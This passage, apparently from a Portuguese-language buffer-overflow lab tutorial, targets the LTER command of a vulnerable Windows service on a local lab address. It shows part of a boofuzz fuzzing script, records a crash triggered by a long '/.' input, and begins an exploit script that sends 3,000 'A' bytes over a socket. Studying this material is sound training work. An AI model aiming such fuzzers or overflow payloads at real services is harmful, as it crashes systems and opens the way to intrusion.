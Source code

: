```python
                ),
            )
    s_initialize(name="Request")
    with s_block("Host-Line"):
        s_static('LTER', name="command name")
        s_delim(" ")
        s_string("FUZZ", name="comando da variavel")
        s_delim("\r\n")

    session.connect(s_get("Request"), callback=get_banner)
    session.fuzz()

if __name__ == "__main__":
    main()
```

![Enumaração do comando.](/img/std/winbof/winbof-78.png)

Causamos um crash com o envio de 10.007 bytes constituidos de “/.”, como sabemos que esta quantia foi exagerada das ultimas vezes, vamos iniciar o esboço do exploit com um buffer de 3.000 bytes e monitorar.

xpllter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payoad
offset = 3000

# payload
payload = b"LTER /."
payload += b"A" * offset

# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```
